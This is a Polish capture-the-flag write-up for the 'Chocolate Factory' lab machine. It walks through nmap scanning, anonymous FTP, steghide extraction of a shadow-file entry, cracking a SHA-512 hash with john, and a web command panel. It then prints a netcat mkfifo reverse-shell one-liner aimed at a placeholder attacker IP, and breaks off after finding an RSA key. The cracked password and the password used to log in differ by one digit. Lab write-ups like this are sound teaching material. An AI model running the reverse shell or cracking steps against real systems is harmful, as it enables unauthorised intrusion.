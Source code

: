 # Chocolate Factory
IP=10.10.108.33

## Rekonesans
Wykonujemy skan maszyny przy pomocy narzędzia nmap:
```sh
sudo nmap -p- 10.10.108.33
```
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-26 04:19 EDT
Nmap scan report for 10.10.108.33
Host is up (0.047s latency).
Not shown: 65506 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
100/tcp open  newacct
101/tcp open  hostname
102/tcp open  iso-tsap
103/tcp open  gppitnp
104/tcp open  acr-nema
105/tcp open  csnet-ns
106/tcp open  pop3pw
107/tcp open  rtelnet
108/tcp open  snagas
109/tcp open  pop2
110/tcp open  pop3
111/tcp open  rpcbind
112/tcp open  mcidas
113/tcp open  ident
114/tcp open  audionews
115/tcp open  sftp
116/tcp open  ansanotify
117/tcp open  uucp-path
118/tcp open  sqlserv
119/tcp open  nntp
120/tcp open  cfdptkt
121/tcp open  erpc
122/tcp open  smakynet
123/tcp open  ntp
124/tcp open  ansatrader
125/tcp open  locus-map

Nmap done: 1 IP address (1 host up) scanned in 96.76 seconds
```
Znając otwarte porty możemy przejść do bardziej dokładnego skanu:
```sh
sudo nmap -p 21,22,80,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125 -sV -sC 10.10.108.33
```
Porty: 80 (HTTP), 21 (FTP) i 22 (SSH) są najbardziej interesujące ze względów bezpieczeństwa, reszta otwrtych portów to nieco mniej ciekawe usługi.

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_auth-owners: ERROR: Script execution failed (use -d to debug)
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_auth-owners: ERROR: Script execution failed (use -d to debug)
```
Dodatkowo na porcie 113 znajdował się ciekawy link:
```
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GetRequest, Help, LPDString, NotesRPC, RTSPRequest, SMBProgNeg, TLSSessionReq, TerminalServer, WMSRequest, X11Probe, afp: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
```
## Skanowanie

### Port 113
Zacznijmy od sprawdzenia portu 113, za pomocą narzędzia wget:
```
wget http://10.10.108.33/key_rev_key
```

Pobrany plik key_rev_key jest plikiem binarnym, zatem warto spróbować wydobyć z niego informację komedną strings:
```
strings key_rev_key | less
```
Wynik:
```
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
### Port 21
Nmap wykazał, że logowanie Anonymous do serwisu FTP jest możliwe oraz znajduje się tam plik w foramcie jpg:
```
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
```
Zalogujmy się do serwisu i pobierzmy plik:

![FTP](img/FTP.JPG)

Sprawdźmy czy plik nie zawiera jakichś ukrytych danych:
```
└─$ steghide extract -sf gum_room.jpg
Enter passphrase: 
wrote extracted data to "b64.txt".
```
Udało się wydobyć ukryte dane, które zostały zapisane do pliku b64.txt:

![B64](img/B64.JPG)

Wygląda to na kodowanie base64, wykorzystajmy narzędzie CyberChef:

![CyberChef](img/CyberChef.JPG)

Odkodowany tekst jest plikiem /shadow używanym w systemie Linux. Hasło użytkownika charlie jest zapisane w formacie hash, a dokładniej w SHA-512, co widać po pierwszych trzech znakach. ($6$ = SHA-512 | $5$=SHA=256 itd.)

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```
Stwórzmy plik tesktowy hash.txt z poniższym hashem:
```
$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/
```
A następnie spróbujmy go złamać przy użyciu narzędzia john:
```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Po chwili udaje się złamać hasha:

![John](img/John.JPG)

Znalezione hasło użytkownika Charlie:

```
cn7824
```

### Port 80

Na porcie 80 znajduje się strona internetowa z panelem logowania:

![login_page](img/login_page.JPG)

Spróbujmy się zalogować przy użyciu znalezionych danych:

```
charlie:cn7823
```

Po zalogowaniu uzyskujemy dostęp do panelu, dzięki któremu możemy wykonywać dowolne polecenia na serwerze:

![Panel](img/Panel.JPG)

## Eksploitacja

Możemy spróbować reverse shell'a, aby uzyskać połączenie z maszyną, za pomocą komendy:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [IP] [Port] >/tmp/f
```
oraz
```
nc -lvnp 4444
```

![RevShell](img/RevShell.JPG)

Po stabilizacji shella możemy przejść do eksploitacji maszyny. W katalogu domowym użytkownika charlie można znaleźć jego prywatny klucz RSA:

![RSA_KEY](img/RSA_KEY.JPG)



